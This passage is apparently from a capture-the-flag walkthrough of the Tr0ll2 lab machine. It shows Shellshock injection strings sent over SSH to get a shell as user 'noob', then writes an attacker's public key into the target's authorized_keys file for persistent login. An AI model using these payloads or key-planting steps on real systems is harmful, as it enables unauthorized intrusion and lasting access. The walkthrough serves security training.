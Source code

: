 ## Exploitation
### SSH Shellshock
Therefore, we use the following command to make sure there is a Shellshock vulnerability. If the echo command is executed and "Shellshock" is printed that means the vulnerability exists and that is what actually happened. Subsequently, we modify the part of echo command to execute "/bin/bash" and we successfully got a shell as noob user.

```bash
ssh noob@192.168.56.120 -i noob '() { :;}; echo Shellshock'
ssh noob@192.168.56.120 -i noob '() { :;}; /bin/bash'
id
```

![shell_noob](/assets/img/posts/troll2/21.png)

Now we need to more interactive shell. Therefore, we are going to generate a public_private key on our local machine "kali linux" then add the public key to ".ssh/authorized_keys" on Tr0ll2 machine so we can login to SSH using our generated key and get a full interactive shell.

```bash
# On kali terminal
ssh-keygen -b 2048 -t rsa
```
```bash
# On Tr0ll2 terminal
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt4+eUkScp4Vyh6ei/iPZjSnPY8lWYctZ0tdYZwNLY+RuzRo6XtFlazWFzvmnWHxYRgmVaikd0SJ3TH4MdEQdxBG9cAYrLp39NR4rFcmP4H1bNKGVxK+WqJTdI/vuAfYBGOox456tUY7lFLTKXfkXbjtpGZ11ui/wUF0WKR+hMfzBTzeYBUBWcRCuZMQBONlotKO/QrjT9SOlJLG6Vm1aoJxk1KeDE5Dhc04uaCqgqQ6cazk5b7+PXX8yNuCI4qSDnfXLVRPX01nLiOOwjqX+PZ1VlaAcIBezug5+/xCFBDD4aItDg40BdIcNCR/TiQkloYv+t4y/+1GbRKFH0G2t1 root@kali' > .ssh/authorized_keys
```

![ssh_keygen](/assets/img/posts/troll2/22.png)
![echo_pubkey](/assets/img/posts/troll2/23.png)
